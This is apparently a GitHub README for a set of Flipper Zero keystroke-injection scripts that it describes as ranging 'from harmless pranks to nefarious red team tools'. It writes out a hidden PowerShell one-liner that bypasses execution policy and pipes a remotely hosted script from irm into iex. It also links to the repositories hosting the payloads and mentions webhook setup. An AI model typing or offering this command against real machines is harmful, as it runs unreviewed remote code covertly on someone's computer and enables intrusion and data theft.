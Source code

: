 # Downloadable-Fast-Execution-Scripts-For-FlipperZero

Easy to setup with tutorials for web hooks etc below...

**THESE SCRIPTS DOWNLOAD AND RUN FROM THIS REPO (Parent .ps1 scripts)-**

https://github.com/beigeworm/assets/tree/main/Scripts

They use this cmd > `STRING powershell -NoP -Ep Bypass -W H -C $variable='USER_INPUT_HERE'; irm HOSTED_SCRIPT_URL_HERE | iex`

These scripts range from harmless pranks to nefarious red team tools. For educational purposes only! 

**If you want to learn more about the code, or modify them, most of these scripts are in powershell format here**

https://github.com/beigeworm/Powershell-Tools-and-Toys

# Pre-Deployment Setup
Most of these scripts will require some setup before they will work.



